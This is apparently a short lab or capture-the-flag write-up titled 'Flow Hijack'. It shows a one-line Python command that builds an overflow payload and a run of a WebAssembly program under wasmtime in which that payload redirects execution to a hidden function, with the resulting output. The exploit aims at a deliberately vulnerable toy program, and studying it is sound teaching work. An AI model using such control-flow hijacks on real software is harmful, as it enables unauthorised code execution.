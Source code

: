 # Flow Hijack
1. **Create the payload**
```
python3 -c 'open("payload.bin", "wb").write(4 * b"A" +  b"\x06")
```

2. **Run the program with the payload**
```
$ wasmtime run main.wasm $(cat payload.bin)
I have a very secret function right here: 0x6
uid=1000(kali) gid=1000(kali) groups=1000(kali) AH got you! Wait how did you get in here anyway?   
```